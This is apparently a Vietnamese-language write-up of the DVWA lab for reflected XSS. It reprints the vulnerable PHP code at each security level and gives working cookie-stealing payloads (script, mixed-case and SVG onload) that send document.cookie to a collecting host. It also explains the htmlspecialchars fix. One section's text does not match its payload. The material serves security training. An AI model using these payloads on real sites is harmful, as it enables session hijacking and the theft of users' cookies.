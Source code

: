 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: XSS Reflected
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - DVWA
  - XSS
  - XSS Reflected
---
```


# __XSS Reflected__

_Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server. Reflected XSS is also sometimes referred to as Non-Persistent or Type-I XSS (the attack is carried out through a single request / response cycle)._

---

## __Objective__

One way or another, steal the cookie of a logged in user.

## __Security Level: Low__

Source code

```php title="vulnerabilities/xss_r/source/low.php"
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```

### __Analysis__

Ta thấy rằng challenge này dùng phương thức GET để get `name`mình nhập vào. Hơn nữa, nó sẽ say hello với mình và hiển thị trên trang web và đặt nó vào bên trong thẻ <pre\>. Do vậy ta dễ dàng chèn thẻ <script\> vào và lấy cookie user.

![](image.png)

> Payload: `<script>document.location='http://localhost:8000/?abc='+document.cookie</script>`

---

## __Security Level: Medium__

Source code

```php title="vulnerabilities/xss_r/source/medium.php"
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?> 

```

### __Analysis__

Với challenge này, họ chặn việc thêm thẻ <script\> vào chương trình. Vì họ filter cứng thẻ <script\> nên ta có thể bypass bằng cách viết hoa/thường lộn xộn của thể <script\> để bypass challenge này.

> Payload: `<sCriPt>document.location='http://localhost:8000/?abc='+document.cookie</sCrIpT>`
 
### __Exploition__

Như đã phân tích trên, ta dùng thẻ <svg\> để thực hiện tấn công.

---

## __Security Level: High__

Source code

```php title="vulnerabilities/xss_r/source/high.php"
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?> 
```

### __Analysis__

Lần này họ cũng filter thẻ <script\> và không phân biệt chữ hoa/chữ thường khi nhập vào. Xem hình giải thích của ChatGPT bên dưới

![ChatGPT](image-1.png)

> Payload: `<svg xmlns="http://www.w3.org/2000/svg" onload="document.location='http://localhost:8000/?abc='+document.cookie"/>`

### __Exploition__

Như đã phân tích trên, ta cũng dùng thẻ <svg\> để thực hiện tấn công.

---

## __Security Level: Impossible__

Source code

```php title="vulnerabilities/xss_r/source/impossible.php"
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

### __Analysis__

Ta sẽ dùng hàm `htmlspecialchars()` để biến các kí tự đặc biệt ở đầu vào thành kí tự giả giúp không thực thi script ta truyền vào.

---

## __Some problems__

Thực chất, ta chỉ cần dùng payload `<svg xmlns="http://www.w3.org/2000/svg" onload="document.location='http://localhost:8000/?abc='+document.cookie"/>` là có thể bypass full cấp độ ở challenge này nhưng tôi muốn đề cập theo hướng mà bên dvwa họ hướng đến việc chúng ta sẽ làm. 

- Ví dụ ở cấp độ Medium: Họ sẽ hướng chúng ta đến việc filter chữ hoa/chữ thường. Vì con người mình nhìn vào thì xem là như nhau như về mặt bản chất thì mã ASCII của 2 chữ là khác nhau dẫn đến thể hiện khác nhau. Nhưng chắc chắn sẽ thực thi cùng 1 mục đích.

## __More Information__

- https://owasp.org/www-community/attacks/xss/
- https://owasp.org/www-community/xss-filter-evasion-cheatsheet
- https://en.wikipedia.org/wiki/Cross-site_scripting
- http://www.cgisecurity.com/xss-faq.html
- http://www.scriptalert1.com/

